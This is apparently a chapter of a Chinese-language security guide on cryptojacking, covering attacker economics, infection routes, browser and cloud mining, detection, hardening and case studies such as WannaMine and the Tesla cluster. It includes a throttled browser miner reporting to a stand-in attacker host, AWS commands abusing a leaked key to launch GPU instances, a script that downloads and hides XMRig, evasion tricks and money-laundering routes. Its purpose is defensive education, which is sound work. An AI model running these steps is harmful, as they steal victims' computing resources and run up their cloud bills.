




# 3. 加密货币挖矿劫持（Cryptojacking）

## 3.1 攻击原理与经济模型

加密劫持（Cryptojacking）是指在未经用户或系统所有者授权的情况下，秘密利用其计算资源进行加密货币挖矿的攻击行为。与勒索软件直接索要赎金不同，加密劫持是一种**隐形吸血式变现**——攻击者通过长期、低烈度的资源占用积累加密货币收益。

### 3.1.1 盈利公式与成本结构

加密劫持的盈利公式为：

```text
攻击者日收益 = 被劫持算力总量 × 单位算力日产币量 × 币价 - 运营成本（域名/服务器/矿池手续费）
```

以 Monero（XMR）为例，2025 年一枚 XMR 约 $150，1 台普通服务器（16 核）日挖矿收益约 $0.15-$0.50。攻击者控制 1000 台机器时，日收益可达 $150-$500，月收益 $4500-$15000，而运营成本极低（仅需域名和矿池费用）。

**成本结构详解：**

| 成本项 | 月费用 | 说明 |
|--------|--------|------|
| 矿池手续费 | 1%-3% | 矿池从挖矿收益中抽取的比例 |
| 域名与服务器 | $5-$50 | 控制服务器、C2 域名 |
| 漏洞利用工具 | $0-$500 | 购买 0-day 或利用公开 exploit |
| 洗钱成本 | 5%-10% | 混币器、多跳转账 |
| 总运营成本 | $10-$600 | 相对收益极低 |

**关键经济特征：**
- **规模效应极强**：单台机器收益微薄，但千台级别即可实现可观利润
- **边际成本趋零**：每新增一台被劫持机器，攻击者几乎不需要额外投入
- **风险分散**：即使部分机器被清除，剩余机器继续产生收益
- **收益稳定性**：加密货币市场波动大，但大规模挖矿收益相对稳定

### 3.1.2 为什么是 Monero（门罗币）？

Monero 是当前加密劫持的首选币种，原因如下：

| 特性 | Monero (XMR) | Bitcoin (BTC) | Ethereum (ETH) |
|------|-------------|---------------|----------------|
| 算法 | RandomX（CPU 友好） | SHA-256（ASIC 主导） | Ethash（GPU 主导） |
| 隐私性 | 默认匿名（环签名+隐形地址） | 公开账本（可追溯） | 公开账本 |
| 劫持友好度 | 极高（普通 CPU 即可挖） | 极低（需专业矿机） | 中（需 GPU） |
| 交易追踪 | 极难 | 容易 | 较难 |
| 币价（2025） | ~$150 | ~$60,000 | ~$3,000 |
| 交易手续费 | ~$0.01 | ~$5-$20 | ~$1-$10 |

RandomX 算法专门设计为 CPU 友好，使得在普通服务器和 PC 上挖矿具有经济可行性。而比特币挖矿已被 ASIC 矿机垄断，劫持普通 CPU 毫无意义。

**Monero 的隐私特性详解：**
- **环签名（Ring Signatures）**：将真实交易与多个"诱饵"交易混合，无法确定真正的发送方
- **隐形地址（Stealth Addresses）**：每笔交易生成一次性地址，无法关联到收款方真实地址
- **环机密交易（RingCT）**：隐藏交易金额，保护交易隐私
- **默认隐私**：无需额外配置，所有交易默认匿名

### 3.1.3 主要感染途径



**途径 1：浏览器端挖矿脚本注入**

攻击者通过 XSS、SQL 注入或篡改第三方资源，在合法网站中植入 JavaScript 挖矿脚本。访问者浏览器在后台执行挖矿，关闭页面即停止。

- **典型场景**：使用过时 CMS（如 WordPress 未更新插件）的网站被植入 CoinHive 类脚本
- **代表作**：2017 年的 CoinHive（已关闭）和后续的 CryptoLoot、MineXMR、CoinImp
- **检测特征**：浏览器 CPU 占用飙升至 80%-100%，电池快速耗尽，风扇噪音增大
- **隐蔽手段**：设置 CPU 节流（throttle），仅占用 30%-50% CPU，降低被发现概率
- **反检测技术**：检测开发者工具是否打开（`window.outerWidth - window.innerWidth > 160`），检测到则暂停挖矿

**途径 2：服务器入侵后部署**

通过 SSH 暴力破解、未修复漏洞（如 WebLogic RCE、Log4Shell）或 SQL 注入获取服务器权限，然后下载并运行挖矿二进制文件。

- **常见入口**：Redis 未授权访问、Docker API 暴露、Tomcat 弱口令、Jenkins 未认证
- **横向移动**：利用 SSH 密钥分发、Ansible Tower、K8s RBAC 提权、内网扫描扩散
- **持久化手段**：systemd 服务、cron 定时任务、Rootkit 隐藏进程、SSH 公钥植入
- **隐蔽手段**：将矿工程序重命名为系统进程名（如 `kworker/0:0`、`systemd-journald`）

**途径 3：容器与镜像供应链投毒**

在 Docker Hub、GitHub Container Registry 等公开仓库上传含挖矿程序的容器镜像，等待使用者拉取运行。受害者越多，攻击者收入越高。

- **典型手法**：仿冒知名镜像名（如 `node:latest-alpine-miner`）、在 Dockerfile 的 RUN 命令中隐藏下载指令
- **传播方式**：恶意 Helm Chart、Kubernetes Operator、CI/CD 管道中投毒
- **检测难度**：镜像拉取后挖矿程序在容器内运行，宿主层难以直接检测
- **真实案例**：2021 年，攻击者在 Docker Hub 上发布名为 `alpine:3.14.2` 的恶意镜像，与官方镜像名称极度相似

**途径 4：云环境配置错误**

利用云服务泄露的 IAM 凭证（如 AWS Access Key 出现在 GitHub 公共仓库）、未认证的 S3 Bucket 或读写权限配置错误的 Kubeconfig 文件，直接创建高算力实例挖矿。

- **常见目标**：AWS EC2（GPU 实例 p3/p4 系列）、Google Cloud G2 实例、Azure NVv4 系列
- **攻击速度**：从发现凭证到开始挖矿，自动化脚本可在 30 秒内完成
- **费用爆炸**：一个 p3.16xlarge 实例（8 个 V100 GPU）按需价格约 $24.48/小时，运行一周产生 $4,114 费用
- **自动化攻击链**：发现凭证 → 枚举权限 → 创建资源 → 部署矿机 → 收益变现 → 痕迹清理

**途径 5：蠕虫自动化传播**

通过 EternalBlue（MS17-010）、BlueKeep（CVE-2019-0708）等漏洞自动蠕虫式传播，不需人工干预即可横向扩散。

- **代表案例**：WannaMine（2018 年，利用 EternalBlue 传播 XMRig 挖矿程序）
- **传播速率**：一个开放 445 端口的脆弱内网，24 小时内可感染 70%+ 主机
- **自动化特征**：无需人工干预，感染后自动扫描内网其他主机，形成指数级扩散

## 3.2 浏览器端挖矿劫持（Web Cryptojacking）

### 3.2.1 技术实现细节

浏览器挖矿基于 **WebAssembly（WASM）** 技术与 **Web Workers**，使得 JavaScript 挖矿性能接近原生代码的 60%-70%。

```javascript
// 简化版浏览器挖矿脚本结构（仅用于理解原理）
const miner = new CoinHive.Anonymous('SITE_KEY');
miner.start();

// 调整 CPU 使用率以防止立即被发现
miner.setThrottle(0.3); // 只使用 70% 的 CPU

// 定期上报挖矿统计
setInterval(() => {
  const stats = miner.getMiningStats();
  fetch('https://attacker-ctl.com/stats', {
    method: 'POST',
    body: JSON.stringify({ hashes: stats.hashesPerSecond })
  });
}, 60000);
```

**WebAssembly 在挖矿中的作用：**
- WASM 模块可以编译 C/C++ 挖矿算法（如 RandomX）为浏览器可执行的二进制格式
- 性能比纯 JavaScript 提升 2-3 倍，接近原生代码的 60%-70%
- 难以被传统的 JavaScript 检测工具发现（检测工具通常只检查 JS 文件）
- 可以通过混淆和加密进一步增加检测难度

**Web Workers 的隐蔽性：**
- Web Workers 在后台线程运行，不会阻塞主线程
- 用户界面不受影响，难以察觉
- 可以通过 `worker.postMessage()` 与主线程通信，上报挖矿统计

### 3.2.2 历史演变

| 时期 | 代表项目 | 特点 | 状态 |
|------|---------|------|------|
| 2017.9 - 2019.3 | CoinHive | 开创者，浏览器 JS 挖矿鼻祖 | 已关闭 |
| 2018 - 2020 | CryptoLoot | CoinHive 替代品，更低抽水 | 部分存续 |
| 2019 - 至今 | CoinImp, MineXMR | 新一代挖矿脚本，WASM 优化 | 活跃 |
| 2020 - 至今 | WebAssembly 定制挖矿 | 自研 WASM 挖矿模块 | 活跃 |

**关键转折：** 2018 年，Chrome 和 Firefox 的 CPU 使用监控功能上线后，浏览器挖矿的隐身能力大幅下降。同时广告拦截器（uBlock Origin）开始内置 CoinHive 黑名单，浏览器端劫持的生存空间急剧收窄。

**CoinHive 的兴衰：**
- 2017 年 9 月上线，允许网站所有者通过挖矿获得收入（合法用途）
- 2018 年达到顶峰，控制全球约 30% 的浏览器挖矿流量
- 2019 年 3 月关闭，原因包括法律压力和浏览器厂商的对抗措施
- 关闭后，大量替代项目涌现，但规模和影响力均不及 CoinHive

### 3.2.3 投毒手法

1. **广告网络投毒**：购买受害者网站使用的广告位，在广告 HTML 中嵌入挖矿脚本。即使主站安全，广告分发网络被攻破即可影响大量用户
2. **CDN 劫持**：攻破第三方 CDN/jsdelivr 镜像，替换合法库文件为带挖矿脚本的版本
3. **浏览器扩展劫持**：发布含挖矿功能的"免费"浏览器扩展，或收购已有大量用户的扩展后恶意更新
4. **WiFi 热点注入**：在公共 WiFi 路由器上利用中间人攻击注入挖矿脚本到所有 HTTP 页面
5. **第三方脚本注入**：通过 XSS 漏洞在合法网站中注入挖矿脚本，或利用 CMS 插件漏洞植入
6. **社交媒体劫持**：在社交媒体平台（如 Facebook、Twitter）的广告或评论中嵌入挖矿脚本

### 3.2.4 浏览器端对抗与反制

**攻击者的反检测技术：**
- **节流控制**：设置 `setThrottle(0.3)` 仅占用 30% CPU，避免用户察觉
- **检测开发者工具**：通过 `window.outerWidth - window.innerWidth > 160` 检测开发者工具是否打开，检测到则暂停挖矿
- **检测虚拟机**：通过检测 CPU 型号、内存大小、硬盘序列号等特征判断是否运行在虚拟机中，虚拟机中通常暂停挖矿
- **检测广告拦截器**：通过检测特定 CSS 类或 JavaScript 变量判断广告拦截器是否启用，启用则暂停挖矿

**防御者的对抗手段：**
- **广告拦截器**：uBlock Origin、AdBlock Plus 等内置矿池域名黑名单
- **浏览器扩展**：NoCoin、MinerBlock 等专门针对浏览器挖矿的扩展
- **企业策略**：通过 GPO 或 MDM 部署矿池域名黑名单，阻止浏览器访问矿池
- **网络层阻断**：在企业防火墙或 DNS 层阻止矿池域名解析

## 3.3 云环境挖矿劫持

### 3.3.1 完整攻击链



### 3.3.2 各云平台攻击手段对比

| 维度 | AWS | Azure | GCP |
|------|-----|-------|-----|
| 常见入口 | 泄露的 Access Key（IAM User） | 托管身份泄露、Key Vault 凭据 | GCP Service Account JSON 文件泄露 |
| 目标实例 | EC2 p3/p4/p5（GPU），c5/m5（CPU） | NVv4/NCas（GPU），D/Ev3（CPU） | G2（GPU），C2/N2（CPU） |
| 恢复难度 | 中（CloudTrail 虽有日志但清洗困难） | 高（日志留存策略不统一） | 中低（Audit Log 默认保留 400 天） |
| 自动化工具 | Cloud_Enum, Pacu | MicroBurst, Stormspotter | GCPEnum, GCPBucketBrute |
| 费用上限 | 无默认上限（需手动设置预算告警） | 有默认预算告警但非强制 | 有默认预算告警但非强制 |

### 3.3.3 AWS 具体攻击场景

攻击者发现了一个泄露的 AWS Access Key：

```bash
# 1. 枚举密钥权限
aws sts get-caller-identity
aws iam list-attached-user-policies --user-name compromised-user

# 2. 检查是否可以创建 EC2 实例
aws ec2 describe-instance-types --instance-types p3.2xlarge
aws ec2 describe-subnets

# 3. 创建挖矿实例（使用 Spot Instance 降低成本）
aws ec2 run-instances \
  --image-id ami-0abcdef1234567890 \
  --instance-type p3.2xlarge \
  --subnet-id subnet-xxxx \
  --user-data file://miner-setup.sh \
  --instance-market-options '{"MarketType":"spot","SpotOptions":{"MaxPrice":"0.50"}}'
```

**Setup 脚本（user-data）示例：**

```bash
#!/bin/bash
# 从 GitHub Gist 下载挖矿程序
curl -L https://gist.githubusercontent.com/.../xmrig.tar.gz | tar xz
chmod +x xmrig

# 后台运行，使用随机名称隐藏进程
nohup ./xmrig -o pool.xmr.example.com:443 -u WALLET_ADDRESS \
  --tls --rig-id=gpu-node-$(hostname -s) \
  --threads=$(nproc) --keepalive > /dev/null 2>&1 &
```

**攻击者的成本优化策略：**
- **使用 Spot Instance**：价格比按需实例低 60%-90%，即使被中断也不影响收益（攻击者可以快速创建新实例）
- **选择低费用区域**：如 AWS 的 ap-southeast-1（新加坡）费用比 us-east-1（弗吉尼亚）低 10%-20%
- **使用免费层**：AWS 免费层提供 750 小时/月的 t2.micro 实例，攻击者可以利用免费层进行小规模挖矿
- **利用预留实例**：如果攻击者控制了长期有效的 IAM 凭证，可以购买预留实例降低长期挖矿成本

### 3.3.4 费用的连锁反应

一个被劫持的 p3.16xlarge 实例（8 个 V100 GPU）按需价格约 $24.48/小时。攻击者运行一周后将产生 **$4,114** 的费用。若攻击者使用 Auto Scaling 组创建 50 个这样的实例，一周费用可飙升至 **$200,000+**。

**真实案例：** 2018 年，Tesla 的 Kubernetes 集群因未妥善保护的管理控制台被入侵，被部署了挖矿负载。Trojan 在 Tesla 的 AWS 环境中一周内产生了数十万美元的额外计算费用。

**费用爆炸的数学模型：**
```text
总费用 = 实例数量 × 实例单价 × 运行时间
```
- 1 个 p3.16xlarge：$24.48/小时 × 24 小时 × 7 天 = $4,114
- 10 个 p3.16xlarge：$41,140
- 50 个 p3.16xlarge：$205,700
- 100 个 p3.16xlarge：$411,400

**攻击者的费用控制策略：**
- **设置预算告警**：攻击者可能设置预算告警，当费用超过阈值时自动停止挖矿（但这会增加被发现的风险）
- **使用多个账户**：通过多个被劫持的 AWS 账户分散费用，避免单个账户费用异常
- **快速销毁**：在费用达到阈值前快速销毁实例，避免产生过高费用

### 3.3.5 云费用的"洗白"与追踪

攻击者获得加密货币收益后，需要通过多种手段"洗白"以避免被追踪：

1. **多跳转账**：将挖矿收益通过多个钱包地址进行多次转账，增加追踪难度
2. **混币器**：使用 Wasabi Wallet、Samourai Wallet 等混币器混合交易，切断交易链路
3. **跨链桥**：通过跨链桥将 Monero 转换为其他加密货币（如 Bitcoin、Ethereum），进一步增加追踪难度
4. **交易所洗钱**：通过多个交易所进行法币兑换，利用交易所的 KYC 漏洞或虚假身份进行洗钱

**防御者的追踪手段：**
- **区块链分析工具**：Chainalysis、Elliptic 等工具可以追踪加密货币交易链路
- **矿池日志**：矿池通常会记录挖矿地址和算力贡献，可以作为追踪线索
- **云日志分析**：CloudTrail、Azure Activity Log、GCP Audit Log 可以记录资源创建和删除操作
- **网络流量分析**：通过分析网络流量可以识别矿池连接和挖矿通信

## 3.4 检测方法

### 3.4.1 主机级别检测

| 检测方法 | Linux 命令/工具 | 预期结果 |
|---------|----------------|---------|
| 高 CPU 进程 | `top -b -o +%CPU -n 1 \| head -20` | 挖矿进程 XMRig 通常占用 90%+ CPU |
| 隐藏进程检查 | `ps auxf \| grep -v grep \| grep -i 'xmrig\|minerd\|cpuminer'` | 挖矿进程常使用伪装名 |
| 网络连接检查 | `netstat -tunpa \| grep -E ':3333|:443|:14444'` | 连往矿池的 TCP 连接 |
| 系统资源基线 | `sar -u 1 5` | CPU 持续 90%+，user 和 system 占比异常 |
| 进程树分析 | `pstree -p` | 查看挖矿进程的父进程和子进程关系 |
| 文件完整性检查 | `aide --check` 或 `tripwire --check` | 检测系统文件是否被篡改 |

**内核级 Rootkit 检测：**

```bash
# 使用 unhide 检测被 Rootkit 隐藏的进程
unhide proc

# 检查内核模块中的可疑项
lsmod | grep -E 'hide|rootkit|miner|k'

# 对比 /proc 和 ps 输出差异
for pid in $(ls /proc | grep -E '^[0-9]+$'); do
  if ! ps -p $pid > /dev/null 2>&1; then
    echo "Hidden process detected: PID $pid"
  fi
done
```

**Windows 系统检测：**

```powershell
# 检查高 CPU 使用率进程
Get-Process | Sort-Object CPU -Descending | Select-Object -First 10

# 检查网络连接
Get-NetTCPConnection | Where-Object {$_.State -eq "Established"} | Select-Object LocalAddress,RemoteAddress,RemotePort

# 检查计划任务
Get-ScheduledTask | Where-Object {$_.State -eq "Ready"} | Select-Object TaskName,TaskPath

# 检查启动项
Get-ChildItem "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
Get-ChildItem "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
```

### 3.4.2 网络流量检测

矿池通信具有固定模式，可通过流量分析识别：

- **TLS 指纹识别**：XMRig 等挖矿工具的 TLS Client Hello 指纹与浏览器不同，JA3 指纹可用于识别
- **域名黑名单**：已知矿池域名（如 pool.minexmr.com, xmrpool.eu, cryptonight.hub）的 DNS 查询
- **Stratum 协议检测**：挖矿通信使用的 Stratum 协议（基于 JSON-RPC）在流量分析中可提取出模式特征
- **流量模式分析**：挖矿流量通常具有固定的数据包大小和频率，可以通过机器学习模型识别

```bash
# 捕获可疑矿池流量
tcpdump -i eth0 -n 'port 3333 or port 14444 or port 443' -c 100

# 检查已知矿池的连接
grep -E 'pool\.(minexmr|xmrpool|supportxmr)\.com' /var/log/syslog

# 使用 JA3 指纹检测 XMRig
# XMRig 的 JA3 指纹通常为：a699315fffe06f1c7ec03e4e8bdc3a57
```

**Stratum 协议特征：**
- 基于 JSON-RPC 的文本协议
- 常见端口：3333、443、14444、5555、7777
- 请求格式：`{"id":1,"method":"mining.subscribe","params":[]}`
- 响应格式：`{"id":1,"result":[["mining.set_difficulty",1]],"error":null}`

### 3.4.3 云环境检测

| 云平台 | 检测工具 | 关键检测指标 |
|-------|---------|-------------|
| AWS | GuardDuty（PenTest/Backdoor 类型告警）、Cost Explorer、Trusted Advisor | 突然创建的高性能实例、CPU 使用率从 5% 飙升至 95% |
| Azure | Defender for Cloud、Cost Management + Billing | 异常的资源类型创建、非工作时间的高使用量 |
| GCP | Security Command Center、Cloud Billing Reports | Service Account 异常创建计算资源、GPU 实例突然出现 |

**自动化检测脚本示例（AWS）：**

```bash
#!/bin/bash
# 检测近期创建的 EC2 实例
NEW_INSTANCES=$(aws ec2 describe-instances \
  --query 'Reservations[].Instances[?LaunchTime>=`2025-06-20`].[InstanceId,InstanceType,LaunchTime]' \
  --output text)

echo "近期创建实例:"
echo "$NEW_INSTANCES"

# 检测 CPU 异常
aws cloudwatch get-metric-statistics \
  --metric-name CPUUtilization \
  --namespace AWS/EC2 \
  --statistics Maximum \
  --period 300 \
  --start-time 2025-06-20T00:00:00Z \
  --end-time 2025-06-21T00:00:00Z
```

**云费用异常检测：**
- **设置预算告警**：AWS Budgets、Azure Budgets、GCP Budget Alerts
- **费用趋势分析**：通过 Cost Explorer 分析费用趋势，识别异常增长
- **资源使用率分析**：通过 CloudWatch、Azure Monitor、GCP Monitoring 分析资源使用率

### 3.4.4 自动化检测工具与 YARA 规则

**YARA 规则示例（检测 XMRig）：**

```yara
rule XMRig_Miner {
    meta:
        description = "Detect XMRig cryptocurrency miner"
        author = "Security Researcher"
        date = "2025-06-20"
    strings:
        $s1 = "XMRig" wide ascii
        $s2 = "xmrig" wide ascii
        $s3 = "RandomX" wide ascii
        $s4 = "stratum" wide ascii
        $s5 = "mining" wide ascii
    condition:
        2 of them
}
```

**自动化检测工具：**
- **ClamAV**：开源杀毒软件，可检测已知挖矿程序
- **YARA**：恶意软件检测工具，可编写规则检测挖矿程序
- **OSSEC**：开源入侵检测系统，可检测异常行为和文件变更
- **Wazuh**：基于 OSSEC 的开源安全监控平台，提供实时监控和告警
- **CrowdStrike Falcon**：商业终端检测与响应（EDR）平台，可检测挖矿行为

## 3.5 防护措施

### 3.5.1 层次化防御策略



### 3.5.2 浏览器端防护

| 措施 | 实现方式 | 效果等级 |
|------|---------|---------|
| 安装广告拦截器 | uBlock Origin 默认屏蔽 CoinHive/CryptoLoot 域名 | ★★★★★ |
| 禁用 JavaScript | 浏览器关闭 JS 影响正常浏览 | ★★★（过度） |
| 企业安全管理 | 通过 GPO 部署矿池域名黑名单 | ★★★★ |
| 浏览器扩展管理 | 白名单制管理扩展安装 | ★★★★ |
| 使用隐私浏览器 | Brave、Firefox 隐私模式 | ★★★★ |
| 定期清理缓存 | 清除浏览器缓存和 Cookie | ★★★ |

**企业级浏览器防护策略：**
- **GPO 部署矿池域名黑名单**：通过组策略对象（GPO）在企业浏览器中部署矿池域名黑名单
- **浏览器扩展白名单**：只允许安装经过审核的浏览器扩展，阻止未知扩展安装
- **网络层阻断**：在企业防火墙或 DNS 层阻止矿池域名解析
- **用户教育**：教育用户识别和避免访问可疑网站，安装广告拦截器

### 3.5.3 服务器端防护

**基准安全配置：**

```bash
# 1. SSH 加固（禁止密码登录，仅用密钥）
sed -i 's/^#PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config
systemctl restart sshd

# 2. 限制 cron 执行者权限
echo "root: /usr/sbin/nologin" >> /etc/cron.allow
chmod 700 /var/spool/cron/crontabs/

# 3. CPU 使用率告警（超过 80% 持续 10 分钟发送告警）
cat << 'EOF' > /etc/periodic/15min/cpu-alert
#!/bin/sh
LOAD=$(uptime | awk -F'[a-z]:' '{print $2}' | cut -d, -f1 | tr -d ' ')
if [ "$(echo "$LOAD > 0.8" | bc)" -eq 1 ]; then
  echo "CPU 负载异常: $LOAD" | mail -s "CPU Alert: $(hostname)" admin@company.com
fi
EOF
chmod +x /etc/periodic/15min/cpu-alert
```

**云 IAM 最小权限原则：**

```json
{
  "Effect": "Allow",
  "Action": [
    "ec2:Describe*",
    "s3:GetObject"
  ],
  "Resource": "*",
  "Condition": {
    "Bool": {
      "aws:MultiFactorAuthPresent": "true"
    }
  }
}
```

**服务器加固清单：**

| 加固项 | 具体操作 | 优先级 |
|--------|---------|--------|
| SSH 密钥认证 | 禁用密码登录，仅使用 SSH 密钥 | 高 |
| 防火墙配置 | 仅开放必要端口（22、80、443） | 高 |
| 系统更新 | 定期更新系统和软件包 | 高 |
| 文件完整性监控 | 使用 AIDE 或 Tripwire 监控文件变更 | 中 |
| 日志审计 | 启用审计日志（auditd） | 中 |
| 进程监控 | 使用 OSSEC 或 Wazuh 监控异常进程 | 中 |
| 网络流量监控 | 使用 Zeek 或 Suricata 监控网络流量 | 中 |

### 3.5.4 Kubernetes 环境防护

```yaml
# LimitRange 限制容器资源使用
apiVersion: v1
kind: LimitRange
metadata:
  name: cpu-limit-range
spec:
  limits:
  - max:
      cpu: "4"
      memory: "8Gi"
    min:
      cpu: "0.1"
      memory: "128Mi"
    default:
      cpu: "1"
      memory: "1Gi"
    type: Container
---
# NetworkPolicy 限制出站流量
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: block-unknown-egress
spec:
  podSelector: {}
  policyTypes:
  - Egress
  egress:
  - to:
    - ipBlock:
        cidr: 10.0.0.0/8
    ports:
    - protocol: TCP
      port: 443
```

**Kubernetes 安全最佳实践：**
- **启用 Pod Security Standards**：使用 Restricted 策略限制容器权限
- **启用 NetworkPolicy**：限制 Pod 之间的网络通信
- **启用 ResourceQuota**：限制命名空间资源使用
- **启用 LimitRange**：限制容器资源使用
- **启用 RBAC**：限制用户和服务账户权限
- **启用审计日志**：记录 API 调用和资源变更

### 3.5.5 容器镜像安全

```bash
# 使用 Trivy 扫描镜像中的挖矿程序和已知漏洞
trivy image --severity CRITICAL,HIGH myapp:latest

# Dockerfile 安全检查：禁止从 URL 下载并执行脚本
# 例如：避免以下模式
# ❌ RUN curl -sL https://example.com/setup.sh | bash
# ✅ 使用官方基础镜像，固定摘要而非标签
FROM node:20-alpine@sha256:abcdef1234567890...
```

**容器镜像安全最佳实践：**
- **使用官方基础镜像**：避免使用来源不明的基础镜像
- **固定镜像摘要**：使用 SHA256 摘要而非标签，确保镜像不可变
- **定期扫描镜像**：使用 Trivy、Clair、Anchore 等工具扫描镜像漏洞
- **最小化镜像**：使用 Alpine 等最小化基础镜像，减少攻击面
- **多阶段构建**：使用多阶段构建减少最终镜像中的攻击面
- **镜像签名**：使用 Docker Content Trust 或 Notary 签名镜像

### 3.5.6 IoT 与嵌入式设备防护

**IoT 设备挖矿劫持特点：**
- **资源受限**：IoT 设备通常资源受限（CPU、内存、存储），但数量庞大
- **固件更新困难**：许多 IoT 设备缺乏固件更新机制，漏洞长期存在
- **网络暴露**：IoT 设备通常直接暴露在公网，缺乏防火墙保护
- **检测困难**：IoT 设备通常缺乏日志和监控能力，难以检测异常行为

**IoT 设备防护策略：**
- **网络隔离**：将 IoT 设备隔离在独立的网络段，限制与核心网络的通信
- **固件更新**：定期更新 IoT 设备固件，修复已知漏洞
- **端口关闭**：关闭不必要的端口（如 Telnet、SSH、HTTP）
- **密码管理**：修改默认密码，使用强密码
- **流量监控**：监控 IoT 设备的网络流量，识别异常行为
- **设备清单**：维护 IoT 设备清单，定期审计设备状态

**常见 IoT 设备漏洞：**
- **默认密码**：许多 IoT 设备使用默认密码（如 admin/admin）
- **未加密通信**：使用 Telnet、HTTP 等未加密协议
- **固件漏洞**：固件中存在未修复的漏洞（如缓冲区溢出、命令注入）
- **UPnP 漏洞**：UPnP 功能可能被利用进行端口转发

### 3.5.7 法律合规与取证

**加密劫持的法律后果：**
- **刑事责任**：在许多国家，加密劫持构成计算机犯罪，可能面临刑事处罚
- **民事责任**：受害者可以提起民事诉讼，要求赔偿损失
- **监管处罚**：企业可能面临监管机构的处罚（如 GDPR、CCPA）

**取证分析步骤：**
1. **现场保护**：保护被感染系统，避免证据被破坏
2. **证据收集**：收集日志、内存转储、磁盘镜像等证据
3. **证据分析**：分析证据，确定攻击时间线、攻击手段、攻击者身份
4. **证据保全**：确保证据的完整性和可追溯性，满足法律要求
5. **报告撰写**：撰写取证报告，为法律程序提供证据支持

**法律合规建议：**
- **建立安全策略**：制定并执行信息安全策略，明确安全责任
- **定期安全审计**：定期进行安全审计，识别和修复安全漏洞
- **员工培训**：对员工进行安全意识培训，提高安全素养
- **事件响应计划**：制定事件响应计划，明确事件处理流程
- **法律合规**：遵守相关法律法规（如 GDPR、CCPA、网络安全法）

## 3.6 真实案例分析

### 案例 1：WannaMine 蠕虫（2018 年）

| 维度 | 详情 |
|------|------|
| 传播方式 | 利用 EternalBlue (MS17-010) 漏洞自动传播 |
| 挖矿程序 | XMRig |
| 感染规模 | 全球超 50 万台主机 |
| 攻击者收益 | 约 2000 XMR（当时价值约 $20 万） |
| 检测特征 | SMB 爆破流量 + CPU 100% + 大量 445 端口扫描 |
| 影响范围 | 全球多个行业，包括医疗、教育、政府 |

**攻击时间线：**
1. **2018 年 1 月**：WannaMine 首次被发现，利用 EternalBlue 漏洞传播
2. **2018 年 2 月**：感染规模迅速扩大，全球超 50 万台主机被感染
3. **2018 年 3 月**：安全厂商发布检测工具和修复方案
4. **2018 年 4 月**：感染规模逐渐下降，但仍有零星感染

**教训与启示：**
- **及时打补丁**：EternalBlue 漏洞在 2017 年 3 月已发布补丁，但许多系统未及时更新
- **网络隔离**：内网隔离可以有效阻止蠕虫传播
- **行为监控**：通过行为监控可以及时发现异常活动

### 案例 2：Tesla K8s 挖矿事件（2018 年）

| 维度 | 详情 |
|------|------|
| 入口 | Kubernetes Dashboard 无需认证即可访问 |
| 攻击方式 | 在集群中创建 Pod 运行 XMRig |
| 损失 | AWS 账单一周内增加数十万美元 |
| 暴露方式 | 安全公司 RedLock 通过扫描发现 |
| 根本原因 | K8s Dashboard 无认证 + RBAC 未配置 |

**攻击细节：**
- 攻击者发现 Tesla 的 Kubernetes Dashboard 无需认证即可访问
- 通过 Dashboard 创建 Pod，运行 XMRig 挖矿程序
- 挖矿程序在 Tesla 的 AWS 环境中运行一周，产生数十万美元费用
- 安全公司 RedLock 通过扫描发现异常 Pod，通知 Tesla

**教训与启示：**
- **Dashboard 认证**：Kubernetes Dashboard 必须启用认证和 RBAC
- **网络隔离**：Dashboard 不应暴露在公网，应通过 VPN 或内部网络访问
